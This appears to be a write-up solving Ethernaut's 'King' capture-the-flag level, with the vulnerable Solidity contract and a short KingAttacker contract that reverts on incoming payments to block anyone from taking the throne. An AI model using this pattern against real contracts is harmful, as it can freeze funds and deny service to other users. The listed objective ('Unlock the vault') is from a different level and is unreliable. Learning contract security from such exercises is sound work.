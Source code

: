 # Ethernaut: 9. King

> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
>
> Such a fun game. Your goal is to break it.

**Objective of CTF:**

- Unlock the vault.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

The ponzi starts with 0.001 ether. We can exploit the game by giving an greater or equal ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
contract KingAttacker {
  error ImTheKing();

  receive() external payable {
    revert ImTheKing();
  }

  fallback() external payable {
    revert ImTheKing();
  }

  function pwn(address payable _to) public payable {
    (bool sent, ) = _to.call{value: msg.value}("");
    require(sent, "pwnage failed");
  }
}
```

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

**A note on Call vs. Transfer**: We used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas may not always be enough for the code to run on their side; so we must forward all our gas to them with `call`.
